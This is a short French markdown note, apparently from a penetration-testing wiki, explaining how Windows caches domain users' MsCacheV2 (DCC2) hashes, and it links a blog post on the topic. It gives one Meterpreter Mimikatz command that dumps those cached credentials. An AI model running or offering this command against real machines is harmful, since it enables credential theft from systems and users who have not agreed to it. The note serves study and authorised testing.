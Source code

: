 ```yaml
---
title: MsCacheV2
permalink: /MsCacheV2/
---
```


# MsCacheV2

Par défaut Windows stocke des hashs des utilisateurs du domaine qui s'authentifient pour permettre une authentification quand le DC n'est pas joignable.

Mimikatz permet de dumper ces hashs:
```
meterpreter > kiwi_cmd lsadump::cache
```

Ressources
----------
- [MsCache v2 / DCC2 et nombre d’itérations](http://blog.gentilkiwi.com/securite/mscache-v2-dcc2-iteration)
